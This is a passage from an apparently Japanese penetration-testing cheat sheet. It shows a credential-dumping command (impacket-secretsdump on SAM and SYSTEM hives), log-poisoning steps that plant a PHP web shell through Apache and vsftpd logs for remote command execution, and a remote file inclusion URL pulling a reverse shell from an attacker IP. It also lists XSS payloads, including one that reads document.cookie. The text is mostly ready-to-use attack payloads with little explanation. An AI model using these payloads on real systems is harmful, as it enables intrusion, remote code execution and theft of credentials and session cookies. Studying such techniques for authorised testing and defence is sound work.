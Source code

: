 ```

impacket-secretsdump -sam SAM -security -system SYSTEM local
```

#### ^Log Poisoning(LFI2RCE)
ログファイルにペイロードを書き込んで、LFIを利用してアクセスすることでペイロードを実行する。  

apache2:  
User-Agentに下記のペイロードを書き込んで送信する。  
```
User-Agent: <?php system($_GET['cmd']); ?>
```
```
/var/log/apache2/access.log
http://<url>/browse.php?files=/var/log/apache2/access.log&cmd=whoami
```
vsftpd:  
ftpに接続してから、下記のペイロードを入力する。  
```
ftp 10.10.10.1
Connected to 10.10.10.1.
220 (vsFTPd 3.0.3)
Name (10.10.10.1:kali): <?php system($_GET['cmd']); ?>
```
```
/var/log/vsftpd.log
http://<url>/browse.php?files=/var/log/vsftpd.log&cmd=whoami
```

### ^RFI
allow_url_includeオプションがONになっている場合に有効。
```
http://<Target IP>/<file>.php?file=http://<Attacker IP>/rs.php
```

### ^XSS(クロスサイトスクリプティング)
```
<script>alert(1);</script>
"><script>alert(1);</script>
<a onmouseover="alert(document.cookie)">XSS</a>
<iframe src="javascript:alert('XSS');"></iframe>
<IMG SRC=j&#X41vascript:alert('XSS')>
```
```
# ソースコードが下記のような場合
<script>
    document.getElementsByClassName('name')[0].innerHTML='test';
</script>

# 攻撃コードは以下のようになる
  「'」でフィールドを閉じて、「;」でコマンドを終了させる。 
  「//」でコメントを作成。
';alert('xss');//
```
